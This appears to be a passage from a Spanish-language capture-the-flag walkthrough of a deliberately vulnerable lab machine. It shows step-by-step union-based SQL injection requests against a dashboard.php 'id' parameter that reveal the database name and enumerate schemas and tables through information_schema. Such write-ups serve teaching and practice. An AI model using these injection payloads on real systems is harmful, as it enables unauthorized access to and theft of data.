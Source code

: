 **Nota:** A partir de eso los númeroes pueden ser reemplazados por consultas para hacer solicitar información de la base de datos. En este caso se puede reemplazar el numero 3 por `database()`, lo que nos permitira obtener la base de datos en uso.

```python
GET /dashboard.php?id=2'union+select+1,2,database(),4,5,6--+- HTTP/1.1
Host: 192.168.200.140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l66cr5745rherg4u1aafmqlaeh
Connection: close
```
En los resultados se podra observar el nombre de la base de datos, `darkhole_2`
> ![alt text](https://i.postimg.cc/85d1CWBy/imagen.png)

Junto a la instruccion anterior se puede acompañar de mas comandos para permitir, extraer mas detalles de las base de datos:

```python
GET /dashboard.php?id=2'union+select+1,2,group_concat(schema_name),4,5,6+from+information_schema.schemata--+- HTTP/1.1
Host: 192.168.200.140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l66cr5745rherg4u1aafmqlaeh
Connection: close
```
Enumernado las tablas de la base de datos, `darkhole_2`.
```python
GET /dashboard.php?id=2'union+select+1,2,group_concat(table_name),4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- HTTP/1.1
Host: 192.168.200.140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l66cr5745rherg4u1aafmqlaeh
Connection: close
```
